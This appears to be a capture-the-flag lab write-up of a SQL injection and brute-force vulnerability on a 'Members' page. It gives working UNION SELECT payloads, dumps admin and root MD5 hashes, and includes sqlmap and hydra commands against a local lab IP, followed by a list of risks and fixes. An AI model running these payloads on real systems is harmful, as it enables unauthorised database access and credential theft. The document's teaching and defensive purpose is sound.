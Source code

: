 ## Location :
Members Page

## Type of Vulnerability :
SQL INJECTION / BRUTE FORCE

## Explanation
The inputs are not protected, it is possible to inject SQL code and submit it, we can see this by simply testing 1 OR 1=1.
We will enter ``1 or 1=1 UNION SELECT table_name, column_name FROM information_schema.columns`` to obtain the structure of the database.

-> There are 5 tables: db_default, users, guestbook, list_images, vote_dbs.
We will focus on the 'db_default' table, there are two columns that seem interesting: 'username', 'password'.
We will test ``1 OR 1=1 UNION SELECT username, password FROM db_default``


Table 'Member_Sql_Injection.db_default' doesn't exist
So we will try to find to which table 'db_default' belongs with ``1 OR 1=1 UNION SELECT table_name, table_schema FROM information_schema.tables``

``First name: db_default
Surname : Member_Brute_Force``
So we will adapt our previous failed query ``1 OR 1=1 UNION SELECT username, password FROM Member_Brute_Force.db_default`` which gives two interesting results:

``First name: root
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
First name: admin
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8``

We will therefore decrypt the password (MD5) which gives ``shadow``.
We log in with the 'root' or 'admin' credentials with the password 'shadow'.
-> We get the flag

With SQLMAP:
python3 sqlmap.py -u "http://192.168.31.217/?page=member&id=1&Submit=Submit#" --dbs -> gives the tables
python3 sqlmap.py -u "http://192.168.31.217/?page=member&id=1&Submit=Submit#" -D Member_Brute_Force -T db_default --columns -> gives the columns
python3 sqlmap.py -u "http://192.168.31.217/?page=member&id=1&Submit=Submit#" -D Member_Brute_Force -T db_default -C username,password --dump -> retrieves the information and decrypts the password

Given the name of the table "Member_Brute_Force" we will test the Brute-Force with hydra:
- With the dictionary 10-million-password-list-top-10000.txt
- http-get-form
- /index.php:page=signin&username=admin&password=^PASS^&Login=Login:F=images/WrongAnswer.gif

## Risks
- Unauthorized access to data
- Modification / deletion / addition of data
- Loss of total control of the database
- Opening to certain types of DoS (Denial of Service) attacks
- Identity theft
- Unauthorized access to restricted functions

## How to Fix
- Use of prepared and / or parameterized queries. Allows data to be distinguished from commands.
- Escaping user inputs
- Validation of user inputs
- Use of a database firewall (monitors queries and blocks suspicious ones)
- Limiting privileges to the strict minimum required
- Limit the number of login attempts over time
